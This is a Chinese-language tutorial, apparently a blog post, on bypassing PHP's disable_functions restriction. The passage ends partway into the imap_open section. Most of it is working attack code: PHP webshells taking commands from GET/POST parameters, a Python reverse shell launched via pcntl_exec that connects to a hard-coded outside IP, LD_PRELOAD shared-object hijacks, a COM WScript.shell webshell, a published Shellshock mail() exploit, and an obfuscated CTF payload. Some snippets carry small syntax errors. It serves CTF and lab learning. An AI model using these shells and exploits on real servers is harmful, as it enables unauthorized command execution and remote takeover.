# 0x00 disable_functions简介

disable_functions是php.ini中的一个设置选项，可以用来设置PHP环境禁止使用某些函数，通常是网站管理员为了安全起见，用来禁用某些危险的命令执行函数等。

我们查看phpinfo的时候，会发现有这么一栏，我本地这里默认是未设置的：



要更改的话打开php.ini，找到对应的行修改即可，这里修改如下：

```php
; This directive allows you to disable certain functions for security reasons.
; It receives a comma-delimited list of function names.
; http://php.net/disable-functions
disable_functions = exec,system,passthru,shell_exec,proc_open,popen,dl,
```

**注意：eval并非PHP函数，放在disable_functions中是无法禁用的，若要禁用需要用到PHP的扩展Suhosin。**

然后重启服务，在phpinfo中可以看到已经生效：



# 0x01 总体而言有以下方法

```php
1.先看有没有一些忘了ban的命令函数
2.利用pcntl_exec
	PHP安装并且启用了pcntl插件
3.利用LD_PRELOAD环境变量
    能上传自己的.so文件
    能够控制LD_PRELOAD环境变量的值，比如putenv()函数
	因为新进程的启动将加载LD_PRELOAD中的.so文件，所以要存在可以控制PHP启动外部程序的函数并能够执行，比如mail()、imap_mail()、mb_send_mail()和error_log()函数等
4.利用Windows系统组件COM绕过
	php.ini中查看是否已经开启com.allow_dcom
5.利用 ShellShock（CVE-2014-6271）
	Linux操作系统
	putenv()、mail()、或error_log()函数可用
	目标系统的/bin/bash存在CVE-2014-6217漏洞
	/bin/sh -> /bin/bashsh默认的shell是bash
6.利用imap_open()绕过
	Linus操作系统
	存在imap_open()函数
	设置imap.enable_insecure_rsh为On
7.利用Apache Mod CGI
	Linux操作系统
	Apache + PHP（apache使用apache_mod_php）
	Apache开启了cgi、rewrite
	Web目录给了AllowOverride权限
	当前目录可写
8.通过攻击 PHP-FPM
	Linux操作系统
	PHP-FPM
	存在目录可写，需要上传.so文件
9.利用GC UAF
	Linux系统
	PHP版本 -->7.0-7.3all version to date
10.利用Backtrace UAF
	Linux系统
	PHP版本-->7.0-7.2all version to date
	7.3<7.3.15 (released 20 Feb 2020)
	7.4<7.43(released 20 Feb 2020)
11.利用SplDoublyLinkedList UAC
	PHP v7.4.10及其之前版本
	PHP v8.0(Alpha)
12.利用FFI扩展执行命令
	Linux系统
	PHP>=7.4
	开启了FFI扩展且ffi.enable=true
13.利用ImageMagick
	目标主机安装了漏洞版本的imagemagick(<=3.3.0)
	安装了php-imagick拓展并在php.ini中启用
	编写php通过new imagick对象的方式来处理图片等格式文件
	PHP>=5.1
```

# 0x02 常规绕过（黑名单绕过）

```php
1.exec()
	<?php echo exec('whoami');?>

2.shell_exec()
	<?php echo shell_exec('whoami');?>
    //需要加echo才能显示结果
3.system()
	<?php system('whoami');?>

4.passthru()
	<?php passthru("whoami");?>
    
5.popen()
    <?php 
    	$command=$_POST['cmd'];
		$handle=popen($command,"r");//打开命令管道进行读取
		while(!=feof($handle)){//还没有到文末的话
            echo fread($handle,1024);//每次读取1024字节的数据
            //fread($handle,1024);
        }
		pclose($handle);
	 ?>
    
6.proc_open()
     <?php
        $command="ipconfig";
		$descriptorspec = array(1=>array("pipe","w"));//返回输出到一个数组
		$handle=proc_open($command,$descriptorspec,$pipes);
		//执行一个命令并且打开用来输入/输出的文件指针
		while(!=feof($pipes[1])){
            echo fread($pipes[1],1024)//这里同上
                //fgets($pipes[1],1024;)
        }
	  ?>
```

# 0x03 利用pcntl_exec

## 前提条件：

**PHP安装并且期用了pcntl插件**

 pcntl是linux下的一个扩展，可以支持php的多线程操作。很多时候会碰到禁用exec函数的情况，但如果运维人员安全意识不强或对PHP不甚了解，则很有可能忽略pcntl扩展的相关函数

 pcntl_exec()是pcntl插件专有的命令执行函数来执行系统命令函数，可以在当前进程空间执行指定的程序

利用pcntl_exec()执行test.sh：

```php
<?php 
    if(function_exists('pcntl_exec')){
        pcntl_exec("/bin/bash",array("/tmp/test.sh");)
    }else{
        echo 'pcntl extension is not support!';
    }
?>
```

由于pcntl_exec()执行命令是没有回显的，所以其常与python结合来反弹shell：

```php
<?php
    pcntl_exec("/usr/bin/python",array('-c','import socket,subprocess,os);
               s=socket.socket(socket.AF_INET,socket.STREAM,socket.SOL_TCP);
               s.connect(("132.232.75.90",9898));
               os.dup2(s.fileno(),0);
               os.dup2(s.fileno(),1);
               os.dup2(s.fileno(),2);
               p=subprocess.call(["/bin/bash","-i"]);'));
```

# 0x03 利用LD_PRELOAD环境变量

## 使用条件

```php
1.Linux系统且能上传自己的.so文件
2.能够控制LD_PRELOAD环境变量的值，比如putenv()函数
3.因为新进程的启动将加载LD_PRELOAD中的.so文件，所以要存在可以控制PHP启动外部程序的函数并能够执行，比如mail()、imap_mail()、mb_send_mail()和error_log()函数等
```

## 原理简述

 LD_PRELOAD是Linux系统的一个环境变量，它可以影响程序的运行时的链接（Runtime linker），它允许你定义在程序运行前优先加载的动态链接库。这个功能主要就是用来有选择性的载入不同动态链接库中的相同函数。通过这个环境变量，我们可以在主程序和其动态链接库的中间加载别的动态链接库，甚至覆盖正常的函数库。一方面，我们可以以此功能来使用自己的或是更好的函数（无需别人的源码），而另一方面，我们也可以以向别人的程序注入程序，从而达到特定的攻击目的。

 我们通过环境变量 LD_PRELOAD 劫持系统函数，可以达到不调用 PHP 的各种命令执行函数（system()、exec() 等等）仍可执行系统命令的目的。

 一般而言，利用漏洞控制web启动新进程a.bin，新进程a.bin的内部调用系统函数b()，b()位于系统共享对象c.so中，所以系统为该进程加载共享对象，我们就要想办法在加载c.so之前优先加载可控的c_evil.so，c_evil.so内含有与b()同名的恶意函数，而由于c_evil.so的优先级比较高，所以a.bin调用到c_evil.so内的b()而非系统内的c.so里面的b()函数，同时，c_evil.so是我们可控的，这样就能达到执行恶意代码的目的。操作如下:

```php
1.编写一个原型为uid_t getuid(void);的C函数，内部执行攻击者指定的代码，并编译成共享对象，getuid_shadow.so;
2.运行PHP函数putenv()（用来配置系统环境变量），设定环境变量LD_PRELOAD为getuid_shadow.so，以便后续启动新进程时优先加载该共享对象。
3.运行PHP的mail()函数，mail()内部启动新进程/usr/sbin/sendmail，由于上一步LD_PRELOAD的操作，sendmail调用的系统函数getuid()被优先级更高的getuid_shadow.so中的同名函数getuid()所劫持。
4.从而达到不调用PHP的各种命令执行函数，仍然可以执行系统命令的目的
```

 而之所以劫持getuid()，是因为sendmail程序会调用该函数(当然也可以为其他被调用的系统函数)，在真实环境中，容易存在这两个问题

```php
1.某些环境中，web禁止期用sendmail，甚至系统上根本没有安装sendmail，也就谈不上劫持getuid()了，通常的www-data权限也无法去更改php.ini配置，安装sendmail
2.即使目标可以启用sendmail，因为未将主机名（hostname）添加进hosts中，导致每次运行sendmail都要花半分钟等待域名解析超时返回，www-data也无法将主机名加入hosts(如127.0.0.1 lamp、lamp、lamp.com)
```

## 攻击利用

### 法一：劫持get_uid()

编写test.c，劫持getuid()函数，获取LD_PRELOAD环境变量并预加载恶意的共享库，再删除环境变量 LD_PRELOAD，最后执行由EVIL_CMDLINE环境变量获取的系统命令：

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

int geteuid() {
        const char* cmdline = getenv("EVIL_CMDLINE");
        if (getenv("LD_PRELOAD") == NULL) { return 0; }
        unsetenv("LD_PRELOAD");
        system(cmdline);
}
```

当这个共享库中的getuid()被调用时，尝试加载payload()函数执行命令。

接着用以下语句编译C文件为共享对象文件：

```shell
gcc -shared -fPIC test.c -o test.so
```

最后编写test.php：

```php
<?php
    echo "<p> <b>example</b>: http://127.0.0.1/exp.php?cmd=pwd&outpath=/tmp/xxx&sopath=/var/www/html/exp.so </p>";
    $cmd = $_GET["cmd"];
    $out_path = $_GET["outpath"];
    $evil_cmdline = $cmd . " > " . $out_path . " 2>&1";
    echo "<p> <b>cmdline</b>: " . $evil_cmdline . "</p>";
    putenv("EVIL_CMDLINE=" . $evil_cmdline);
    $so_path = $_GET["sopath"];
    putenv("LD_PRELOAD=" . $so_path);
    mail("", "", "", "");
    echo "<p> <b>output</b>: <br />" . nl2br(file_get_contents($out_path)) . "</p>"; 
    unlink($out_path);
?>
```

这里接受3个参数，一是cmd参数，待执行的系统命令；二是outpath参数，保存命令执行输出结果的文件路径，便于在页面上显示，另外该参数，你应注意web是否有读写权限、web是否可跨目录访问、文件将被覆盖和删除等几点；三是sopath参数，指定劫持系统函数的共享对象的绝对路径。

这里通过putenv()函数将LD_PRELOAD环境变量设置为恶意的test.so、将自定义的EVIL_CMDLINE环境变量赋值为要执行的命令；然后调用mail()函数触发sendmail()，再通过sendmail()触发getuid()从而使恶意的test.so被加载执行；最后再输出内容到页面上并删除临时存放命令执行结果的文件。

访问test.php，输入相应的参数即可执行成功：



其实本地测试发现，即使Linux系统未安装或未启用sendmail，还是能够成功触发Bypass，这和前面分析的mail()会启动/bin/sh进而调用getuid()有关，验证了这种方法的特殊性。这是因为，**如果别的环境和我本地的一样，在mail()中存在启动execve调用了/bin/sh程序来间接调用sendmail的这种情况，即使目标系统未安装或未开启sendmail程序，我仍然可以通过PHP的mail()函数来触发调用了/bin/sh程序的execve，从而调用getuid()达到执行劫持函数的目的。**

### 法二：劫持启动进程

#### 基本原理

第一种方法是劫持getuid()，是较为常用的方法，但存在缺陷：

- 目标Linux未安装或为启用sendmail；
- 即便目标可以启用sendmail，由于未将主机名添加进hosts中，导致每次运行sendmail都要耗时半分钟等待域名解析超时返回，www-data也无法将主机名加入hosts；

> 回到 LD_PRELOAD 本身，系统通过它预先加载共享对象，如果能找到一个方式，在加载时就执行代码，而不用考虑劫持某一系统函数，那我就完全可以不依赖 sendmail 了。这种场景与 C++ 的构造函数简直神似！
>
> GCC 有个 C 语言扩展修饰符 `__attribute__((constructor))`，可以让由它修饰的函数在 main() 之前执行，若它出现在共享对象中时，那么一旦共享对象被系统加载，立即将执行 `__attribute__((constructor))` 修饰的函数。这一细节非常重要，很多朋友用 LD_PRELOAD 手法突破 disable_functions 无法做到百分百成功，正因为这个原因，**不要局限于仅劫持某一函数，而应考虑拦劫启动进程这一行为**。
>
> 此外，我通过 LD_PRELOAD 劫持了启动进程的行为，劫持后又启动了另外的新进程，若不在新进程启动前取消 LD_PRELOAD，则将陷入无限循环，所以必须得删除环境变量 LD_PRELOAD。最直观的做法是调用 `unsetenv("LD_PRELOAD")`，这在大部份 linux 发行套件上的确可行，但在 centos 上却无效，究其原因，centos 自己也 hook 了  unsetenv()，在其内部启动了其他进程，根本来不及删除 LD_PRELOAD 就又被劫持，导致无限循环。所以，我得找一种比  unsetenv() 更直接的删除环境变量的方式。是它，全局变量 `extern char** environ`！实际上，unsetenv() 就是对 environ 的简单封装实现的环境变量删除功能。

#### 攻击利用

**bypass_disablefunc.c**

```c
#define _GNU_SOURCE

#include <stdlib.h>
#include <stdio.h>
#include <string.h>


extern char** environ;

__attribute__ ((__constructor__)) void preload (void)
{
    // get command line options and arg
    const char* cmdline = getenv("EVIL_CMDLINE");

    // unset environment variable LD_PRELOAD.
    // unsetenv("LD_PRELOAD") no effect on some 
    // distribution (e.g., centos), I need crafty trick.
    int i;
    for (i = 0; environ[i]; ++i) {
            if (strstr(environ[i], "LD_PRELOAD")) {
                    environ[i][0] = '\0';
            }
    }

    // executive command
    system(cmdline);
}
```

接着用以下语句编译C文件为共享对象文件：

```shell
gcc -shared -fPIC bypass_disablefunc.c -o bypass_disablefunc.so
```

bypass_disablefunc.php，代码和test.php一致：

```php
<?php
    echo "<p> <b>example</b>: http://127.0.0.1/bypass_disablefunc.php?cmd=pwd&outpath=/tmp/xx&sopath=/var/www/bypass_disablefunc_x64.so </p>";
    $cmd = $_GET["cmd"];
    $out_path = $_GET["outpath"];
    $evil_cmdline = $cmd . " > " . $out_path . " 2>&1";
    echo "<p> <b>cmdline</b>: " . $evil_cmdline . "</p>";
    putenv("EVIL_CMDLINE=" . $evil_cmdline);
    $so_path = $_GET["sopath"];
    putenv("LD_PRELOAD=" . $so_path);
    mail("", "", "", "");
    echo "<p> <b>output</b>: <br />" . nl2br(file_get_contents($out_path)) . "</p>"; 
    unlink($out_path);
?>
```

访问bypass_disablefunc.php，输入参数设置LD_PRELOAD环境变量和要执行的命令的值，页面直接返回命令执行结果：



## 例题练习：[极客大挑战 2019]RCE ME

拿下shell，用蚁剑连接，打开虚拟终端，发现无法执行命令，查看phpinfo得知设置了disable_functions



去yangyangwithgnu 大佬的github上下载该项目的利用文件：

https://github.com/yangyangwithgnu/bypass_disablefunc_via_LD_PRELOAD

项目里有这么四个关键的文件：



bypass_disablefunc.php 为命令执行 webshell，提供三个 GET 参数：

```php
http://site.com/bypass_disablefunc.php?cmd=pwd&outpath=/tmp/xx&sopath=/var/www/bypass_disablefunc_x64.so
```

一是 cmd 参数，待执行的系统命令（如 pwd）；二是 outpath 参数，保存命令执行输出结果的文件路径（如  /tmp/xx），便于在页面上显示，另外该参数，你应注意 web 是否有读写权限、web 是否可跨目录访问、文件将被覆盖和删除等几点；三是  sopath 参数，指定劫持系统函数的共享对象的绝对路径（如  /var/www/bypass_disablefunc_x64.so），另外关于该参数，你应注意 web  是否可跨目录访问到它。此外，bypass_disablefunc.php 拼接命令和输出路径成为完整的命令行，所以你不用在 cmd  参数中重定向。

bypass_disablefunc_x64.so 为执行命令的共享对象，用命令 `gcc -shared -fPIC bypass_disablefunc.c -o bypass_disablefunc_x64.so` 将 bypass_disablefunc.c 编译而来。 若目标为 x86 架构，需要加上 -m32 选项重新编译，bypass_disablefunc_x86.so。

想办法将 bypass_disablefunc.php 和 bypass_disablefunc_x64.so 传到目标，指定好三个 GET 参数后，bypass_disablefunc.php 即可突破 disable_functions。

将 bypass_disablefunc.php 和 bypass_disablefunc_x64.so 传到目标有权限的目录中:



然后将bypass_disablefunc.php包含进来并使用GET方法提供所需的三个参数：

```php
?code=${%fe%fe%fe%fe^%a1%b9%bb%aa}[_](${%fe%fe%fe%fe^%a1%b9%bb%aa}[__]);&_=assert&__=include(%27/var/tmp/bypass_disablefunc.php%27)&cmd=/readflag&outpath=/tmp/tmpfile&sopath=/var/tmp/bypass_disablefunc_x64.so
```



(当然，蚁剑已经集成了bypass插件，直接用即可:点击插件使用，之后搞一个蚁剑建立的shell的副本，将链接地址改成 .antproxy.php,密码不变（也可能是ant），即可)

# 0x04 利用Windows系统组件COM绕过

Windows系统组件COM在Windows默认就存在，是位于System32目录下的wshom.ocx文件。

## 适用条件


## 环境配置

先在php.ini中查看是否已经开启com.allow_dcom，若未开启则将前面的;分号去掉：

```php
; allow Distributed-COM calls
; http://php.net/com.allow-dcom
com.allow_dcom = true
```

然后在php/ext/里面查找是否存在php_com_dotnet.dll这个文件。

再到php.ini中查看是否存在extension=php_com_dotnet.dll这项，有的话去掉注释开启，否则直接添加上去即可。

重启服务，在phpinfo中查看是否开启了：



## 攻击利用

这里前提通过phpinfo知道disable_functions选项如下：

```php
disable_functions = exec,system,passthru,shell_exec,proc_open,popen,dl,
```

此时在Web服务器中写入任意的以上函数的WebShell都是无法执行命令的。

上传comshell.php到目标服务器：

```php
<?php
$command = $_GET['cmd'];
$wsh = new COM('WScript.shell'); // 生成一个COM对象　Shell.Application也能
$exec = $wsh->exec("cmd /c".$command); //调用对象方法来执行命令
$stdout = $exec->StdOut();
$stroutput = $stdout->ReadAll();
echo $stroutput;
?>
```

这里创建一个COM对象，然后通过调用COM对象的exec()方法来实现执行系统命令，从而绕过disable_functions禁用PHP命令执行函数的限制：



# 0x05 利用 ShellShock（CVE-2014-6271）

## 适用条件

```php
1.Linux操作系统
2.putenv()、mail()、或error_log()函数可用
3.目标系统的/bin/bash存在CVE-2014-6217漏洞
4./bin/sh -> /bin/bash sh默认的shell是bash
```

## 原理简述

这种利用方法的前提是目标OS存在Bash破壳（CVE-2014-6271）漏洞，该漏洞的具体介绍可参考[《破壳漏洞（CVE-2014-6271）综合分析：“破壳”漏洞系列分析之一  》](https://www.freebuf.com/news/48331.html)。

 该漏洞的原因是Bash使用的环境变量是通过函数名称来调用的，导致该漏洞出现是以(){开头定义的环境变量在命令 ENV (显示系统中已经存在的环境变量)中解析成函数后，Bash执行并未退出，而是继续解析并执行shell命令。而其核心的原因在于在输入的过滤中没有严格限制边界，也没有做出合法化的参数判断。

 一般函数体内的代码不会被执行，但破壳漏洞会错误的将"{}"花括号外的命令进行执行。PHP里的某些函数（例如：mail()、imap_mail()）能调用popen或其他能够派生bash子进程的函数，可以通过这些函数来触发破壳漏洞(CVE-2014-6271)执行命令。

 来看看mail()是怎么使用到popen函数而派生出bash子进程的

 PHP的mail()函数用于发送邮件，提供了3个必选参数和2个可选参数：

```php
mail ( string $to , string $subject , string $message [, string $additional_headers [, string $additional_parameters ]] ) : bool
```

重点在于最后一个参数，这个参数可以通过添加附加的命令作为发送邮件时候的配置，比如使用-f参数可以设置邮件发件人等。这个可以去翻看看官方文案

 在PHP mail()函数的源代码mail.c中，有如下片段，其中mail()函数的第五个参数即为extra_cmd

```php
if (extra_cmd != NULL) {
	spprintf(&sendmail_cmd, 0,"%s %s", sendmail_path, extra_cmd);
} else {
	sendmail_cmd = sendmail_path;
}
```

 当extra_cmd(用户传入的一些额外参数)存在的时候，调用spprintf()将sendmail_path和extra_cmd组合成真正执行命令行sendmail_cmd。然后将sendmail_cmd丢给了popen()来执行

```php
#ifdef PHP_WIN32
	sendmail = popen_ex(sendmail_cmd,"wb", NULL, NULL TSRMLS_CC);
#else
    /* Since popen() doesn't indicate if theinternal fork() doesn't work
    *(e.g. the shell can't be executed) we explicitly set it to 0 to be
    *sure we don't catch any older errno value. */
    errno = 0;
    sendmail = popen(sendmail_cmd,"w");#就是这里！
#endif
```

 如果系统默认sh是bash，popen()会派生bash进程，而刚刚的CVE-2014-6271漏洞，就会直接导致我们可以利用mail()函数执行任意命令，绕过disable_functions的限制

 同样，看php的源代码，可以发现**调用popen派生进程的php函数还有imap_mail，如果只是禁用了mail函数想要规避这个问题，那imap_mail也是也可用来攻击的**。所以根本在于，只要有调用popen或者其他能够派生出bash子进程的函数，通过这些地方，都是可以通过破壳漏洞来执行命令的。

## 攻击利用

使用[AntSword-Labs](https://github.com/AntSwordProject/AntSword-Labs)搭建环境

```php
git clone https://github.com/AntSwordProject/AntSword-Labs.git
cd AntSword-Labs/bypass_disable_functions/2
docker-compose up -d
```



用蚁剑拿下shell并**在有写入权限的目录中**上传以下利用脚本，命名为exploit.php，这里传到/var/tmp/目录下：

```php
# Exploit Title: PHP 5.x Shellshock Exploit (bypass disable_functions)
# Google Dork: none
# Date: 10/31/2014
# Exploit Author: Ryan King (Starfall)
# Vendor Homepage: http://php.net
# Software Link: http://php.net/get/php-5.6.2.tar.bz2/from/a/mirror
# Version: 5.* (tested on 5.6.2)
# Tested on: Debian 7 and CentOS 5 and 6
# CVE: CVE-2014-6271
<pre>
<?php echo "Disabled functions: ".ini_get('disable_functions')."\n"; ?>
<?php
function shellshock($cmd) { // Execute a command via CVE-2014-6271 @ mail.c:283
   if(strstr(readlink("/bin/sh"), "bash") != FALSE) {
     $tmp = tempnam(".","data");
     putenv("PHP_LOL=() { x; }; $cmd >$tmp 2>&1");
     // In Safe Mode, the user may only alter environment variables whose names
     // begin with the prefixes supplied by this directive.
     // By default, users will only be able to set environment variables that
     // begin with PHP_ (e.g. PHP_FOO=BAR). Note: if this directive is empty,
     // PHP will let the user modify ANY environment variable!
     mail("a@127.0.0.1","","","","-bv"); // -bv so we don't actually send any mail
   }
   else return "Not vuln (not bash)";
   $output = @file_get_contents($tmp);
   @unlink($tmp);
   if($output != "") return $output;
   else return "No output, or not vuln.";
}
echo shellshock($_REQUEST["cmd"]);
?>

```



再利用文件包含执行命令：

```php
http://127.0.0.1:18080/?ant=include("/var/tmp/exploit.php");&cmd=ls /
```

注：

1. **这个靶场禁用了mail函数和mail_open()，所以上述的脚本无法使用，有待寻找新的可用函数**

2. 但是AntSword 虚拟终端中已经集成了对 ShellShock 的利用，直接在虚拟终端执行命令即可绕过



# 0x05 利用imap_open()绕过

## 适用条件

- Linux操作系统
- 存在imap_open()函数
- 设置imap.enable_insecure_rsh为On

